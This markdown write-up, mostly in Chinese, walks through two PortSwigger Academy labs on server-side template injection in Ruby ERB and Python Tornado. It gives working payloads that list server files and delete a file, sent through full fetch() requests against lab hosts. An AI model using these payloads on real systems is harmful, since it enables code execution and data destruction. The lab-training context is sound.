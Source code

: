 ```yaml
---
title: Server-side template injection
description: Server-side template injection
---
```


## Lab: Basic server-side template injection

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/server-side-template-injection/exploiting#read                                     |
| Lab       | https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic |

點選第一個 product，發現導到 `https://0abc00e204db5b45820e83400062000f.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`

先合理推測注入點應該是 `?message=` 這邊

Lab 有說要閱讀 [ERB](https://docs.ruby-lang.org/en/3.4/ERB.html) 的官方文件

1. `<%= x %>`

```
(erb):1:in `<main>': undefined local variable or method `x' for main:Object (NameError) from /usr/lib/ruby/2.7.0/erb.rb:905:in `eval' from /usr/lib/ruby/2.7.0/erb.rb:905:in `result' from -e:4:in `<main>'
```

2. `<%= x=42; x %>`

42

3. `<%= x=Dir.children('.'); x %>`

[".bash_logout", ".bashrc", ".profile", "morale.txt", ".bash_history"]

4. `<%= File.delete('morale.txt'); %>`

成功解題

## Lab: Basic server-side template injection (code context)

| Dimension | Description                                                                                                                          |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/server-side-template-injection/exploiting#read                                                  |
| Lab       | https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context |

"Preferred name" 會去戳這隻 API

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=user.first_name&csrf=7HxFgj0pQGHnI4gYjKGWKmZFq76R0JI9`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

Lab 有說要閱讀 [Tornado](https://www.tornadoweb.org/en/stable/template.html) 的官方文件

1. 修改成 user

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=user&csrf=7HxFgj0pQGHnI4gYjKGWKmZFq76R0JI9`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

&lt;**main**.User instance at 0x7fa2a569f0f0&gt;

2. 修改成 666

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`x=666;x`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

3. 嘗試 import os

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`import os;os.listdir('.')`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

```
No handlers could be found for logger "tornado.application" Traceback (most recent call last): File "<string>", line 15, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 317, in __init__ "exec", dont_inherit=True) File "<string>.generated.py", line 4 _tt_tmp = import os;os.listdir('.') # <string>:1 ^ SyntaxError: invalid syntax
```

4. AI 說 Tornado 有一套自己的語法

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`__import__('os').listdir('.')`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

```
[&#39;.bash_logout&#39;, &#39;.bashrc&#39;, &#39;.profile&#39;, &#39;morale.txt&#39;, &#39;.bash_history&#39;]
```

5. 來刪檔案

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`__import__('os').remove('morale.txt')`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## 參考資料

- https://portswigger.net/web-security/server-side-template-injection
